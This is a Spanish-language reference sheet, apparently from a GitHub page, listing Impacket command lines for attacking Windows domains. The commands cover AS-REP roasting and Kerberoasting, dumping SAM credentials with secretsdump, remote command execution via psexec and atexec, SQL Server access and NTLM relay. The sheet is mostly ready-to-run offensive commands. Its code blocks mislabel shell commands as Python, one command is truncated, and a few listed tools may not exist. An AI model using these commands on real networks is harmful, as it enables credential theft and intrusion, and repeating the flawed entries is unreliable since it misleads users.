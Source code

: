 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```

### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```